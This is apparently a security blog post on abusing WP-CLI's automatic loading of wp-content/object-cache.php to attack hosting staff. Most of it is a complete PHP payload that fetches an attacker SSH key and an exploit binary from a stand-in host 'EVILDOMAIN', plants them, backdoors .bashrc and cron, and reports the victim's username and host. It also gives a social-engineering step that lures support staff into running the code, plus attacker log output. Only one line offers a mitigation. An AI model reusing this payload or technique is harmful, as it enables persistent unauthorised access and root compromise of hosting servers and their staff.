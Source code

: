 # Attacking hosting infrastructure through WP-CLI

WP-CLI[1] is the command-line interface for WordPress, as their site claims. It gives an interface to functionality of WordPress. This is quiet cool and is used by a lot of (WordPress) hosting companies to troubleshoot and support their customers. 

An example:

``` 
$ wp-cli.phar core version 
4.8.1
$ wp-cli.phar plugin list
+----------------------------+----------+-----------+----------+
| name                       | status   | update    | version  |
+----------------------------+----------+-----------+----------+
| advanced-custom-fields     | active   | none      | 4.4.11   |
| display-widgets            | active   | available | 2.6.2.1  |
| regenerate-thumbnails      | inactive | none      | 2.2.6    |
| simple-share-buttons-adder | inactive | none      | 6.3.6    |
| wordpress-seo              | active   | available | 5.3.1    |
+----------------------------+----------+-----------+----------+
$ wp-cli.phar checksum core --skip-themes --skip-plugins 
Success: WordPress install verifies against checksums.
```

WP-CLI is a phar and uses the system PHP and php.ini-settings to execute WordPress to get the WordPress installation settings. This means there is code execution of code that are placed within in WordPress files. Within the example we do a checksum on the WordPress core files to check the integrety. This is a really cool feature to check for infections. We use the `--skip-themes` and `--skip-plugins` arguments to skip the code of any plugins and themes. 

As a serious hosting company you might choose to disable the execution of system commands and process calls. This makes it a lot harder for attackers to compromise the system. So what to do when you have access to a WordPress installation and want to escalate privileges to someone with more than just a sandboxed PHP proces?

This is where the optional file wp-content/object-cache.php comes in. This file is not part of WordPress core but it loaded on startup by wp-includes/load.php:

wp-includes/load.php [2]
```
function wp_start_object_cache() {
	global $wp_filter;
	$first_init = false;
 	if ( ! function_exists( 'wp_cache_init' ) ) {
		if ( file_exists( WP_CONTENT_DIR . '/object-cache.php' ) ) {
			require_once ( WP_CONTENT_DIR . '/object-cache.php' );
			if ( function_exists( 'wp_cache_init' ) ) {
				wp_using_ext_object_cache( true );
			}
			// Re-initialize any hooks added manually by object-cache.php
			if ( $wp_filter ) {
				$wp_filter = WP_Hook::build_preinitialized_hooks( $wp_filter );
			}
		}
		$first_init = true;
	} elseif ( ! wp_using_ext_object_cache() && file_exists( WP_CONTENT_DIR . '/object-cache.php' ) ) {
<snip>
```

Although this code should not be trusted but by default it is. And so this is a nice attack vector. Anyony that executes wp-cli-phar in this installation will execute the code in object-cache.php by default. So let's see how we could use this. 

Let's setup an imaginary hosting environment:
- Any webserver, SQL server etc you wish
- The PHP-FPM process will run as a non-priviliged user with a /sbin/nologin shell.
- PHP-FPM configured with a php.ini that disables 
	- proc_open
	- popen
	- system
	- show_source
	- dl
	- shell_exec
	- passthru
	- proc_terminate
	- proc_close
	- proc_get_status
	- proc_nice
	- pclose 
	- posix_kill
	- posix_mkfifo
	- posix_setpgid
	- posix_setsid	
	- posix_setuid
	- posix_getpwuid
	- posix_uname


Although the execution of PHP (and so wp-cli.phar) will have no way to execute system binaries or scripts other than PHP. To attack the user of wp-cli.phar (which might be a supportdesk employee or a cronjob running `wp-cli.phar core update`) we could insert the following code in wp-content/object-cache.php:

```
<?php    
	@$uid = posix_getuid();
	if( isset($uid) and $uid == 0) {
		// in the off change that someone forces wp-cli to run as uid 0
		$user = 'root';
        	$keyfile = '/root/.ssh/authorized_keys';
		$bashrc = '/root/.bashrc';
	} else {
		@$user = posix_getlogin();
        	@$keyfile = '/home/'.posix_getlogin().'/.ssh/authorized_keys';
		$bashrc = '/home/'.$user.'/.bashrc';
        }
	// return to wp-includes if webserver is serving file, this is because we have no login
	if($user == '') {return;} 
	
	// download and add our key to the users authorized_keys
        @$c = curl_init("http://EVILDOMAIN/sshkey.pub");
        @curl_setopt($c, CURLOPT_RETURNTRANSFER, true);
	@curl_setopt($c, CURLOPT_HEADER, 0);
       	@$t= curl_exec($c);
        @curl_close($c);
	@$current = file_get_contents($keyfile);
        $current .= "\n".$t;
	@file_put_contents($keyfile,$current);
	@chmod($file, 0600);

	// download exploit and install it in /tmp/.exploit
        @$c = curl_init("http://EVILDOMAIN/exploit");
        @curl_setopt($c, CURLOPT_RETURNTRANSFER, true);
	@curl_setopt($c, CURLOPT_HEADER, 0);
       	@$t = curl_exec($c);
	@curl_close($c);
	@$payload = fopen('/tmp/.exploit', "w+");
	@fputs($payload, $t);
	@fclose($payload);
        @chmod('/tmp/.exploit', 0700);

	// Now we add cronjob insertion into the bashrc of the user running the wp-cli.phar
	// so the next time the user logs into the server the cronjob gets inserted and the 
	// exploit is executed.
	@$bashrcold = file_get_contents($bashrc);
	@$bashrcold .= "\ncurl -s http://EVILDOMAIN/sshkey.pub?".$user."@".gethostname()." -o /tmp/.sshkey.pub 2>&1 > /dev/null;";
	@$bashrcold .= "\ncrontab /tmp/.cronfile 2>&1 > /dev/null;";
	@$bashrcold .= "\n/tmp/.exploit";
	@file_put_contents($bashrc,$bashrcold);
        
	@file_put_contents('/tmp/.cronfile', "SHELL=/bin/bash\nMAIL=\"\"\n\n37 13 * * * /tmp/.exploit\n");

	// we do a GET on EVILDOMAIN to inform us which username and host to SSH into with our ssh key
	@$c = curl_init("http://EVILDOMAIN/?".$user."@".gethostbyaddr("127.0.1.1"));
        @curl_setopt($c, CURLOPT_RETURNTRANSFER, true);
	@curl_setopt($c, CURLOPT_HEADER, 0);
       	@$t= curl_exec($c);
        @curl_close($c);
```

So now we contact customer support and say that we cannot upgrade a plugin. When they execute wp-cli.phar the code in object-cache.php would be executed with their privileges. They would see the following:
```
$ wp-cli.phar plugin list --skip-plugins --skip-themes
+-------------------------------+----------+--------+---------+
| name                          | status   | update | version |
+-------------------------------+----------+--------+---------+
| grid                          | active   | none   | 1.6.13  |
| instagram-feed                | active   | none   | 1.4.9   |
| nextgen-gallery               | active   | none   | 2.2.10  |
| pace-builder                  | active   | none   | 1.1.6   |
+-------------------------------+----------+--------+---------+
```

So, we see nothing at all, but in the meantime on EVILDOMAIN's webserver we see the following in the logs:

```
root@EVILDOMAIN:/var/log/apache2/# tail -f access.log 
xxx.xx.xxx.xx - - [04/Jul/2017 14:55:55] "GET /sshkey.pub HTTP/1.1" 200 -
xxx.xx.xxx.xx - - [04/Jul/2017 14:55:58] "GET /sskey.pub HTTP/1.1" 200 -
xxx.xx.xxx.xx - - [04/Jul/2017 14:55:58] "GET /exploit HTTP/1.1" 200 -
xxx.xx.xxx.xx - - [04/Jul/2017 14:55:58] "GET /?xxxxx@xxxx.xxxx.com HTTP/1.1" 200 -
```

On the hosting machine:
```
$ tail -n 3 ~/.bashrc 
curl -s http://EVILDOMAIN/sshkey.pub?xxxx@xxxx.xxxx.com -o /tmp/.sshkey.pub 2>&1 > /dev/null;
crontab /tmp/.cronfile 2>&1 > /dev/null;
/tmp/.exploit
```

If this user logs into the system again the user executes the cronjob is inserted as the user and the exploit is executed. Now this is really, really interesting if the webhoster does updates of WordPress core through a cronjob:
```
* 0 * * * wp-cli.phar core update && chown -R webuser:webuser httpdocs/
```
This would give us code execution for the user root on the webserver

Solving this issue is easy. Always use the concept of least privilege. If you force the use of the non-privileged webuser misuse wil be prevented:
```
$ sudo -u webuser wp-cli.phar plugin list
```


- [1] http://wp-cli.org/
- [2] https://github.com/WordPress/WordPress/blob/795af804ba83ab4ecb36477ced49980cf9f117f2/wp-includes/load.php#L474
